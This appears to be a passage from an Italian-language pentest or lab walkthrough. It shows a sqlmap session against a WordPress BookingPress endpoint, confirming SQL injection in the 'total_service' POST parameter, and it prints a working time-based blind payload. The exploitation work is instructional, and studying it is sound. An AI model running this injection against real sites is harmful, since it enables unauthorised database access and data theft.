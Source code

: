 1) Cerchiamo quanti database ci stanno:
┌──(kali㉿kali)-[~]
└─$  sqlmap -r 'sql Inject.req'   -p total_service --dbs

        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.10#stable}
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:45:47 /2022-11-29/

[14:45:47] [INFO] parsing HTTP request from 'sql Inject.req'
it appears that provided value for POST parameter 'total_service' has boundaries. Do you want to inject inside? ('-7502*) ') [y/N] n
[14:45:49] [INFO] testing connection to the target URL
[14:45:50] [INFO] testing if the target URL content is stable
[14:45:50] [INFO] target URL content is stable
[14:45:50] [WARNING] heuristic (basic) test shows that POST parameter 'total_service' might not be injectable
[14:45:51] [INFO] testing for SQL injection on POST parameter 'total_service'
[14:45:51] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:45:52] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:45:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:45:53] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:45:54] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:45:56] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:45:56] [INFO] testing 'Generic inline queries'
[14:45:57] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:45:57] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                                                                                                                                         
[14:45:57] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:45:58] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:45:59] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:46:10] [INFO] POST parameter 'total_service' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[14:46:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:46:21] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:46:25] [INFO] target URL appears to be UNION injectable with 9 columns
[14:46:27] [INFO] POST parameter 'total_service' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'total_service' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: total_service (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=224e07b058&category_id=33&total_service=-7502)  AND (SELECT 9801 FROM (SELECT(SLEEP(5)))FKkh)-- UWya
